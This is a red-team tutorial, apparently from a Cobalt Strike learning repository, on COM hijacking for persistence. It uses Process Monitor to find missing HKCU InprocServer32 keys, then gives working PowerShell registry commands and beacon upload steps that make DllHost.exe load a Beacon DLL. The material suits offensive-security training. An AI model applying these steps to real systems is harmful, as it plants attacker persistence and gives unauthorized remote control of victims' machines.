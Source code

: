 Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives. Launch **procmon64.exe** on **Attacker Windows**.

Due to the sheer number of events generated, filtering is essential to find the ones of interest. We're looking for:

-   **RegOpenKey** operations.
-   where the _Result_ is **NAME NOT FOUND**.
-   and the _Path_ ends with **InprocServer32**.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/22941ffd-cf7f-44ac-931a-05d4985cae31)


To speed the collection up you click random things, go into the Windows menu, launch applications etc. After just a few minutes, I have over 5,000 events - most of them from Explorer, some from 3rd party software and others from OS components.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/108616f0-2ac2-473a-b288-307d4be9174f)


One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so, or loaded when a commonly-used application (Word, Excel, Outlook etc) is opened.

Scrolling through, I picked out this CLSID being loaded by **C:\\Windows\\system32\\DllHost.exe**

```
HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32
```

We can use some quick PowerShell to show that the entry does exist in HKLM, but not in HKCU.

```powershell
PS C:\> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment


PS C:\> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.

```powershell
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

To generate the DLL, go to **Attacks > Packages > Windows Executable (S)** and select **Windows DLL** as the output type. Then upload the DLL to the location we specified in the registry entry above.
```shell
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

When **DllHost.exe** loads this COM entry, we get a Beacon.
